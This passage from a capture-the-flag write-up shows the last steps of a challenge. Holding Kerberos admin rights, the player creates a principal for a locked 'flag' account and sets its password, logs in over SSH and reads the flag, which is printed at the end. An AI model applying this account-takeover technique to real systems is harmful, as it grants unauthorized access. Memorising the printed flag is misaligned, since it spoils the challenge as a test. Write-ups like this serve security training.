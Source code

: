 ```
anna@server1:~$ find / -name '*flag*' 2>/dev/null
(...)
/home/flag

anna@server1:~$ ls -lad /home/flag
drwxr-x--- 1 flag flag 4096 Jun  3 11:43 /home/flag

anna@server1:~$ id -a flag
uid=994(flag) gid=993(flag) groups=993(flag)
```

The `flag` user is locked, but, we are Kerberos admin, so, we can set the password.

From previous step (`listprincs`) I knew that the `flag` user actually does not have a principal, so we can create one:

```
anna@server1:~$ kadmin
Authenticating as principal anna/admin@CHALLENGE-DAF98FA3-34A9-4E5E-81F7-78BDD19DC6FE.SVC.CLUSTER.LOCAL with password.
Password for anna/admin@CHALLENGE-DAF98FA3-34A9-4E5E-81F7-78BDD19DC6FE.SVC.CLUSTER.LOCAL: 
kadmin:  addprinc flag@CHALLENGE-DAF98FA3-34A9-4E5E-81F7-78BDD19DC6FE.SVC.CLUSTER.LOCAL
No policy specified for flag@CHALLENGE-DAF98FA3-34A9-4E5E-81F7-78BDD19DC6FE.SVC.CLUSTER.LOCAL; defaulting to no policy
Enter password for principal "flag@CHALLENGE-DAF98FA3-34A9-4E5E-81F7-78BDD19DC6FE.SVC.CLUSTER.LOCAL": <new pass>
Re-enter password for principal "flag@CHALLENGE-DAF98FA3-34A9-4E5E-81F7-78BDD19DC6FE.SVC.CLUSTER.LOCAL": <new pass>
Principal "flag@CHALLENGE-DAF98FA3-34A9-4E5E-81F7-78BDD19DC6FE.SVC.CLUSTER.LOCAL" created.
```

# flag@server1

With that, we can login as `flag`

```
anna@server1:~$ ssh flag@server1
flag@server1's password: <new pass>

flag@server1:~$ ls -la
(...)
-rw-r--r-- 1 root root   35 Jun  3 11:41 flag.txt

flag@server1:~$ cat flag.txt 
```

---

## `shc2024{k3rb3r0s_l4t3r4l_m0v3m3nt}`


<hr>

&copy; [muflon77](https://library.m0unt41n.ch/players/805ae1c8-9fe4-5816-b4a4-5057fa6eedb1)
